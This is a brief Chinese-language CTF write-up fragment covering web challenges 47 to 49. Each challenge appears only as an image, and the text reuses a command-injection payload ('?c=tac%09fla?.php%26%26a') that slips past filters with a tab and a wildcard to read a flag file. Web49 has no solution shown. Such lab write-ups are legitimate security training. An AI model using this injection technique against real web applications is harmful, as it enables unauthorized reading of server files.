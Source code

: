 
#### web47

题目：

![image-20250208191813791](assets/image-20250208191813791.png)

用上一题的payload即可：

```
?c=tac%09fla?.php%26%26a
```



#### web48

题目：

![image-20250209123227655](assets/image-20250209123227655.png)

用上一题的payload即可：

```
?c=tac%09fla?.php%26%26a
```



#### web49

题目：

![image-20250209130526797](assets/image-20250209130526797.png)
